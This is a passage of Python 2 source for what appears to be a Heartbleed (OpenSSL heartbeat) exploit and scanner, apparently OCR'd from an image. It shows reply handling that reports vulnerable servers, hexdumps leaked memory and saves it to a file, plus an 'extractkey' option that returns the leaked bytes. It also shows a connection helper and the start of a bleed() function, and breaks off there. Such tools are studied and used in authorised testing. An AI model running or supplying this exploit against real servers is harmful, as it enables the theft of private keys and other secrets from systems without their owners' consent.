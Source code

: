                 if firstrun or opts.verbose:

                    print '\nWARNING: ' + targ + ':' + str(opts.port) + ' returned more data than it should - server is vulnerable!'

                if opts.rawoutfile:

                    rawfileOUT.write(pay)

                if opts.extractkey:

                	return pay

                else:

	                return hexdump(pay)

            else:

                print 'Server processed malformed heartbeat, but did not return any extra data.'



        if typ == 21:

            print 'Received alert:'

            return hexdump(pay)

            print 'Server returned error, likely not vulnerable'

            return ''





def conn(targ, port):

    try:

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

        sys.stdout.flush()

        s.settimeout(10)

        #time.sleep(0.2)

        s.connect((targ, port))

        return s



    except Exception as e:

       print "Connection Error! " + str(e)

       return None

       

def bleed(targ, port):

    try:

        res = ''
